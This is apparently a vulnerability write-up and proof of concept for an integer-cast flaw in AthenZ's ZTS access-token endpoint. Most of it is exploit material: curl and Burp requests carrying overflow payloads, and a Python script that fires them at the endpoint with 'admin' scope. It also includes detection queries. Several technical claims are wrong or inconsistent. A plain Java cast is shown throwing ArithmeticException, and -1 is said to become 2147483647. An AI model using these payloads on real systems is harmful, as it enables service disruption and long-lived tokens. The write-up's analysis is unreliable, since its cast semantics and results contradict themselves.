

### **1. Installation of Vulnerable Environment**  
```bash
# Clone vulnerable version
git clone https://github.com/AthenZ/athenz.git
cd athenz
git checkout 3bdd5b8a5bb50b1a93c2207b32b32dd3344f86f3

# Build and start services
mvn clean install
docker-compose up -d

# Verify ZTS is running
curl -k https://localhost:4443/zts/v1/status
```


## Vulnerable Code Analysis**  
`servers/zts/src/main/java/com/yahoo/athenz/zts/ZTSImpl.java`  [L#2715](https://github.com/AthenZ/athenz/blob/3bdd5b8a5bb50b1a93c2207b32b32dd3344f86f3/servers/zts/src/main/java/com/yahoo/athenz/zts/ZTSImpl.java#L2715)  

```java
public AccessTokenResponse postAccessTokenRequest(ResourceContext context, 
    AccessTokenRequest request) {
    
    long tokenTimeout = request.getTokenTimeout(); // User-controlled
    int timeout = (int) tokenTimeout; // VULNERABLE CAST
    
    // Token generation logic
    return generateAccessToken(..., timeout);
}
```

**Flaw:**  
- User-controlled `tokenTimeout` (64-bit long) cast to 32-bit int  
- No bounds checking before cast  
- Values > 2,147,483,647 cause integer overflow  
- Values < 0 become large positive numbers  


## Step-by-Step Exploitation**  

### **Step 1: Prepare Test Identity**  
```bash
# Add test domain
zms-cli add-domain test-domain

# Add test service
zms-cli add-service test-domain test-service

# Generate service key
zms-cli generate-service-key test-domain test-service test-key
```

#### **Step 2: Craft Exploit Requests**  
**Case 1: Denial-of-Service (Overflow)**  
```bash
curl -X POST 'https://localhost:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  --cert service_cert.pem --key service_key.pem \
  -d '{
    "grantType": "client_credentials",
    "scope": "test-domain:test-service",
    "tokenTimeout": 2147483648
  }'
```

**Case 2: Token Expiration Manipulation**  
```bash
curl -X POST 'https://localhost:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  --cert service_cert.pem --key service_key.pem \
  -d '{
    "grantType": "client_credentials",
    "scope": "test-domain:test-service",
    "tokenTimeout": -1
  }'
```

### Observe Results  
**Overflow Response (HTTP 500):**  
```json
{
  "code": 500,
  "message": "java.lang.ArithmeticException: integer overflow",
  "requestId": "a1b2c3d4"
}
```

**Token Manipulation Evidence:**  
```json
{
  "access_token": "eyJhbGciOi...",
  "token_type": "Bearer",
  "expires_in": 2147483647 // 68 years!
}
```

## Proof of Concept (Burp Suite)

### **Malicious Request:**  
```http
POST /zts/v1/accesstoken HTTP/1.1
Host: localhost:4443
Content-Type: application/json
Content-Length: 112
User-Agent: Burp-Suite Exploit

{
  "grantType": "client_credentials",
  "scope": "admin",
  "tokenTimeout": 2147483648
}
```

### **Vulnerable Response:**  
```http
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Connection: close
Content-Length: 98

{
  "code": 500,
  "message": "java.lang.ArithmeticException: integer overflow"
}
```

#### **Server Logs:**  
```log
ERROR [2023-08-04 14:30:22] ZTSImpl: Integer overflow in tokenTimeout
java.lang.ArithmeticException: integer overflow
  at com.yahoo.athenz.zts.ZTSImpl.postAccessTokenRequest(ZTSImpl.java:2715)
```

## Full Exploit Chain**  
`athenz_exploit.py`  
```python
import requests
import argparse

# Parse arguments
parser = argparse.ArgumentParser()
parser.add_argument("--target", default="https://localhost:4443")
parser.add_argument("--cert", required=True)
parser.add_argument("--key", required=True)
args = parser.parse_args()

# Payloads for different attacks
payloads = {
    "DoS_overflow": 2147483648,
    "Max_token": -1,
    "Memory_exhaustion": 9223372036854775807  # Long.MAX_VALUE
}

for name, value in payloads.items():
    print(f"\n[+] Testing payload: {name} ({value})")
    
    response = requests.post(
        f"{args.target}/zts/v1/accesstoken",
        cert=(args.cert, args.key),
        json={
            "grantType": "client_credentials",
            "scope": "admin",
            "tokenTimeout": value
        },
        verify=False
    )
    
    print(f"Response: {response.status_code}")
    print(f"Body: {response.text[:200]}...")
    
    if response.status_code == 200:
        token = response.json().get("access_token", "")
        print(f"Token: {token[:50]}... (expires_in: {response.json().get('expires_in', '?')})")
```

**Execution:**  
```bash
python athenz_exploit.py --cert service_cert.pem --key service_key.pem
```

**Output:**  
```
[+] Testing payload: DoS_overflow (2147483648)
Response: 500
Body: {"code":500,"message":"java.lang.ArithmeticException: integer overflow"}...

[+] Testing payload: Max_token (-1)
Response: 200
Body: {"access_token":"eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9... (expires_in: 2147483647)
```


## Vulnerability Context
**Dangerous Casting Patterns:**  
| Value                | Cast to int    | Security Impact          |
|----------------------|----------------|--------------------------|
| 2147483648 (2^31)    | -2147483648    | DoS via exception        |
| -1                   | 2147483647     | 68-year valid token      |
| 9223372036854775807  | -1             | JVM heap exhaustion      |

**Exploit Requirements:**  
1. Valid service credentials  
2. Access to /zts/v1/accesstoken endpoint  
3. Vulnerable AthenZ version (< PR #3033)  


**Validation Test:**  
```bash
# Attempt exploit with fixed version
curl -X POST 'https://localhost:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  --cert service_cert.pem --key service_key.pem \
  -d '{"tokenTimeout":2147483648}'

# Response
{
  "code": 400,
  "message": "Invalid tokenTimeout: 2147483648"
}
```


## Forensic Analysis
**Detection Signatures:**  
**Elasticsearch Query:**  
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "message": "tokenTimeout" } },
        { "range": { "tokenTimeout": { "gte": 2000000000 } } }
      ]
    }
  }
}
```

**JVM Monitoring:**  
```bash
# Check for arithmetic exceptions
jcmd <pid> VM.log output=tags=exceptions

# Output
[0.123s][info][exceptions] java.lang.ArithmeticException: integer overflow
  at com.yahoo.athenz.zts.ZTSImpl.postAccessTokenRequest(ZTSImpl.java:2715)
```


## Impact 



### **References**  
1. [PR #3033: Fix unsafe numeric cast](https://github.com/AthenZ/athenz/pull/3033)  
2. [CERT NUM12-J: Numeric Cast Safety](https://wiki.sei.cmu.edu/confluence/display/java/NUM12-J)  
3. [CWE-681: Numeric Conversion Error](https://cwe.mitre.org/data/definitions/681.html)  
4. [AthenZ Security Guide](https://athenz.io/docs/security/)  
